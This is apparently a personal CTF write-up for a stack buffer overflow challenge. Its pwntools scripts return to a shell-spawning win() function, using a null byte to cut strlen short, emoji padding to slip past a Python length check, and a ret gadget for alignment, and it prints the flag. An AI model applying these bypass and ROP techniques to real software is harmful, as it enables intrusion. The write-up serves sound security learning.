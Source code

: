 # 1.0 Challenge
1. strlen -> /x00 to stop the checking
2. python wrapper only 0xff -> can use emoji in python on 1 length, but for c is 4 bytes

# 2.0 Analysis
this is a beginner and advanced challenge for me 
the source code very simple 
I even though I can finish it very fast but NOT 
this is trap shit 

```c
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
python wrapper
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

needed ROP
```
ret = 0x000000000040101a
win = 0x0000000000401262
```

# 3.0 Solution
## 3.1 OFFSET
ok 我们第一个要想的问题是 offset 
![[./attachments/Pasted image 20250714170240.png]]
我一开始以为是直接0x110+8 + win 然后发现不work ？？？？？
0x118 = 280

如果不成功马上 请想起来 有ret alignment !!!!!
so 280 + ret + win
然后还是不能 .... 

## 3.2 STRLEN
这个时候想一下 为什么他没有直接断掉
so 要add \x00 null terminator
可是也要算好整个offset 
`[\x00 + offset] 这边只能是280 + ret 8 + win 8`
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += b"a"*(offset)
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

OK local pass

## 3.3 len(payload) > FF
看python 只能ff 如果直接pass 一定超过 因为我的整个payload 288 + 8
所以直接把offset 改成 unicode 就不会被 python check 
😎 python len: 1 c strlen: 4
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += "😃".encode()* ((offset)//4)
binary += b'aaa' # for alignment 
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

## 3.4 FULL SCRIPT
![[./attachments/c1_3.py]]

# 4.0 FLAG 
```
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
```
